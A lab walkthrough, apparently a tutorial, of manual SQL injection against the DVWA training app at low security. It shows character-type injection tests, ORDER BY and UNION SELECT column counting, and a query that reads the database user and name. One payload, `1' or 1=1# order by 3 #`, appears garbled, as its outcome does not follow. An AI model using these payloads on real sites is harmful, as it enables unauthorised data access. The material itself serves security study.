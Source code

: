 ## SQL Injection Analysis

### Low Security Level

#### Determine whether the injection is successful and whether the injection is character type or numeric type

Input: `1`, query successful

<div style="text-align:left"><img style="max-width:40%;height:auto;" src="https://i.loli.net/2021/04/22/OhfSPRgLVUTsjeQ.png"></div>

Input: `1' and '1'='2`, the query fails and the returned result is empty

<div style="text-align:left"><img style="max-width:35%;height:auto;" src="https://i.loli.net/2021/04/22/ELUNqVzv8SywTPo.png"></div>

Input: `1' or '1'='1`, the query is successful and multiple results are returned

<div style="text-align:left"><img style="max-width:35%;height:auto;" src="https://i.loli.net/2021/04/22/onghDWQuNekj9M8.png"></div>

From the above three attempts, we can know that there is a character injection vulnerability here.

#### Guess the number of fields in the SQL query statement

Input: `1' or 1=1 order by 1 #`, the query is successful

<div style="text-align:left"><img style="max-width:35%;height:auto;" src="https://i.loli.net/2021/04/22/b4PnEiIaByH6NlR.png"></div>

Input: `1' or 1=1 order by 2 #`, the query is successful

<div style="text-align:left"><img style="max-width:35%;height:auto;" src="https://i.loli.net/2021/04/22/fFiZs1RtlAwcOu9.png"></div>

Input: `1' or 1=1# order by 3 #`, the query failed. Note that there are only two fields in the SQL query statement executed, namely First name and Surname in the figure.

<div style="text-align:left"><img style="max-width:40%;height:auto;" src="https://i.loli.net/2021/04/20/4TN6wR2PDsSxQyb.png"></div>

You can also enter here:

```sql
'union select 1,2 #
```

Let’s guess the number of fields

<div style="text-align:left"><img style="max-width:30%;height:auto;" src="https://i.loli.net/2021/04/20/SkxuDwLe4z6tNZQ.png"></div>

If you enter `'union select 1,2,3 #`, an error will be reported

<div style="text-align:left"><img style="max-width:60%;height:auto;" src="https://i.loli.net/2021/04/20/3ZvGDRuUTh6S2Cs.png"></div>

#### Get the current database name

The command `'union select user(), database()#` returns the result as shown below, indicating that the current database name is dvwa
